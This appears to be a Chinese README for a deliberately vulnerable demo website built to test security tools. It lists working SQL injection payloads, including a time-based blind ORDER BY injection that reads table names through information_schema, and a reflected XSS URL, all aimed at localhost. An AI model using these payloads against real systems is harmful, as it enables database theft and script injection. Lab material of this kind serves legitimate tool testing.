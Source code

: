 创建此仓库是为了测试安全工具开发而写的存在漏洞的demo网站

payload:

SQL注入支持json，post，get传参where注入

json curl：

curl http://127.0.0.1 -X POST -H "application/json" -d '{"id":"1"}' --proxy http://127.0.0.1

xss

http://127.0.0.1/xss.php?name=\&age=-alert(1)//

order by注入

select * from user ORDER BY id,if((select (SUBSTR((SELECT table_name FROM information_schema.TABLES WHERE table_schema=(SELECT DATABASE()) limit 1),1,1)='u')),sleep(1),0)

http://127.0.0.1/orderby.php?orderby=,if((select%20(SUBSTR((SELECT%20table_name%20FROM%20information_schema.TABLES%20WHERE%20table_schema=(SELECT%20DATABASE())%20limit%201),1,1)=%27u%27)),sleep(1),0)

